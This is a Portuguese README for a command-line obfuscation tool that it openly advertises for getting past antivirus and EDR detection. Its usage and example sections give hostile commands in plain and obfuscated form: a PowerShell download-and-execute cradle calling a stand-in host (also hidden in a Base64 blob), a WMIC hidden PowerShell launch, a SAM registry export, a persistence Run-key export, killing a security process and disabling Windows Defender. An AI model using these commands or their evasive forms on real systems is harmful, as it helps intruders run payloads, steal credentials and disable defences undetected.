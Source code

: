 # ArgFuscator

ArgFuscator é uma ferramenta avançada de ofuscação de linha de comando para bypassing de detecções em AVs e EDRs. Esta ferramenta implementa técnicas shell-independentes que exploram as "falhas" de análise dos executáveis para contornar detecções baseadas em análises de linha de comando.

## Motivação

Ferramentas defensivas como AVs e EDRs dependem fortemente da análise de argumentos de linha de comando para detectar atividades maliciosas. Com o aumento significativo das "intrusões sem malware" nos últimos anos, onde atacantes utilizam:

- Linguagens de script nativas do sistema (PowerShell, Bash)
- Executáveis nativos do sistema (LOLBINs - Living Off The Land Binaries)
- Executáveis legítimos de terceiros (ferramentas de monitoramento e gerenciamento remoto)

A ofuscação de linha de comando torna-se uma técnica vital para compreender e defender contra estes tipos de ataques.

## Como funciona

A ofuscação de linha de comando difere de outros tipos de ofuscação (como DOSfuscation ou ofuscação PowerShell) porque:

1. Não é dependente do shell - é o executável alvo que é vulnerável
2. A linha de comando ofuscada é passada completamente ofuscada para o EDR

O ArgFuscator implementa várias técnicas de ofuscação, incluindo:

### Para Windows:
- Substituição de caracteres de opção (`/` → `-`)
- Substituição de caracteres (usando caracteres Unicode similares)
- Inserção de caracteres (caracteres invisíveis ou ignorados)
- Inserção de aspas
- Remoção de caracteres
- Transformação de valores (ex: IP em formato decimal)
- Travessia de caminho
- Manipulação de URL

### Para Linux/macOS:
- Remoção de caracteres
- Reordenação/empilhamento de opções
- Inserção e remoção de separadores de opção
- Transformação de valores

## Instalação

```bash
git clone https://github.com/seu-usuario/argfuscator.git
cd argfuscator
pip install -r requirements.txt
```

## Uso

```bash
python argfuscator.py "taskkill /f /im security_process.exe"
```

Gerar múltiplas variantes:
```bash
python argfuscator.py "reg export HKLM\SAM out.reg" --output 5
```

Usar técnicas específicas:
```bash
python argfuscator.py "powershell -encodedcommand ..." --techniques CharacterSubstitution,CharacterInsertion
```

Listar todas as técnicas disponíveis:
```bash
python argfuscator.py --list-techniques
```

## Exemplos de Ofuscação PowerShell

Aqui estão alguns exemplos de comandos PowerShell ofuscados usando o ArgFuscator:

### Exemplo 1: Execução de comandos codificados em Base64
Original:
```powershell
powershell -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZQB4AGEAbQBwAGwAZQAuAGMAbwBtAC8AcABhAHkAbABvAGEAZAAuAHAAcwAxACcAKQA=
```

Ofuscado:
```powershell
poᵂeʳSʰEˡˡ -ᴱn<200b>ᶜoᵈᵉᵈᶜommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZQB4AGEAbQBwAGwAZQAuAGMAbwBtAC8AcABhAHkAbABvAGEAZAAuAHAAcwAxACcAKQA=
```

### Exemplo 2: Execução remota de script
Original:
```powershell
powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "IEX (New-Object Net.WebClient).DownloadString('http://example.com/script.ps1')"
```

Ofuscado:
```powershell
PoWeRsᴴEᵉLl -exᵉC<200c>utioⁿpo<200b>licy bʸₚA"S"s -WinDO"w"sᵗylᵉ hi"D"dEn -cOMM"a"Nd "IEX (New-Object Net.WebClient).DownloadString('http:\\example.com/script.ps1')"
```

### Exemplo 3: Uso do WMI para execução de processo
Original:
```powershell
wmic process call create "powershell -nop -w hidden -c IEX ([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String('BASE64_ENCODED_PAYLOAD')))"
```

Ofuscado:
```powershell
wᵐ<200b>ᵢc pʳᴏc"e"Ss c<200c>A"l"L cʳ"e"ᵃᵗe "powershell -n"o"p -w hid"d"en -c IEX ([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String('BASE64_ENCODED_PAYLOAD')))"
```

### Exemplo 4: Acesso ao registro do Windows
Original:
```powershell
reg export HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run persistence.reg
```

Ofuscado:
```powershell
REᴳ e"x"Poʳᵗ H"K"L"M"\S"O"FT"W"AR"E"\..\M"i"C"r"oSo"F"T\W"i"ND"o"W"s"\C"u"RR"e"NT"V"ERSᶦO"n"\RU"n" pe"r"Si"s"TᴱNce.reg
```

### Exemplo 5: Desativação do Windows Defender
Original:
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Ofuscado:
```powershell
SeT-Mp<200b>PʳEᶠeʳeᴺcᵉ -dᶦSᵃᵇlᵉrᵉAlᵗim"e"m<200c>onitoʳiᴺᵍ $t"r"Ue
```

## Referências

- [LOLBAS Project](https://lolbas-project.github.io/)
- [ArgFuscator.net](https://argfuscator.net/)
- [Atomic Red Team](https://atomicredteam.io/)
